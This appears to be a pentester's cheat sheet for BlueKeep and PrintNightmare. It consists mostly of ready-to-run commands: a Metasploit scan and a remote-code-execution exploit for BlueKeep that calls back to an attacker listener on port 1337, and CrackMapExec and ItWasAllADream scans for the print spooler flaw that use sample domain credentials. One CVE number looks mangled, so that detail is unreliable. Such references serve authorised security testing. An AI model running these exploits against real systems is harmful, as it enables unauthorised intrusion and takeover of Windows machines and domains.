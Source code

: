 
## BlueKeep

**CVE-2019-0708**

Check:

```
msf > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf > set RHOSTS file:rdp.txt
msf > set THREADS 25
msf > run
```

Exploit:

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf > set RHOSTS file:rdp.txt.txt
msf > set LHOST eth0
msf > set LPORT 1337
msf > run
```




## PrintNightmare

**CVE-2021-16751, CVE-2021-34527**

* [https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)
* [https://pentestlab.blog/2021/08/17/domain-escalation-printnightmare/](https://pentestlab.blog/2021/08/17/domain-escalation-printnightmare/)



### Check


#### CrackMapExec

* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/spooler.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/spooler.py)

```
$ cme smb hosts.txt -u snovvcrash -p 'Passw0rd!' -M spooler
```


#### ItWasAllADream

* [https://github.com/byt3bl33d3r/ItWasAllADream](https://github.com/byt3bl33d3r/ItWasAllADream)

```
$ poetry run itwasalladream -d megacorp.local -u snovvcrash -p 'Passw0rd!' 192.168.1.0/24
```

